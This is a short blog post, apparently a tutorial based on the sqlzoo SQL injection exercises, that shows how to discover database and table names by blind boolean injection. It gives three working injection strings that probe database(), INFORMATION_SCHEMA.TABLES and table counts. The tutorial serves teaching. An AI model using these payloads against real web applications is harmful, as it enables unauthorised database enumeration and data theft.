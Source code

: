 ```yaml
---
layout: post
title: "Find Table Names using SQL Injection"
description: ""
categories : ""
sub_categories : ""
date: 2016-06-17
tags: []
comments: true
share: true
---
```


In the previous examples we cheated a little. You knew that the table
containing user names and passwords was called users and you knew that it had
two columns, name and password. In some cases you do not know the name of the
table or the column names, but you can use the same techniques to find these
out.

  

You need to find out the name of the database that you are using. The function
DATABASE() will give you that value (but you have to guess at it as before).
When you know the name of the database being used you can take guesses at the
names of the tables.

  

  

**Does the current database contain the letter j?**

' OR EXISTS(SELECT 1 FROM dual WHERE database() LIKE '%j%') AND ''='

**Is there a table called one in database test?**

' OR EXISTS(SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA='test'
AND TABLE_NAME='one') AND ''='

**Is there more than one table in the database(s) containing a j?**

' OR (SELECT COUNT(*) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA LIKE
'%j%')>1 AND ''='

  

참고 : http://sqlzoo.net/hack/24table.htm


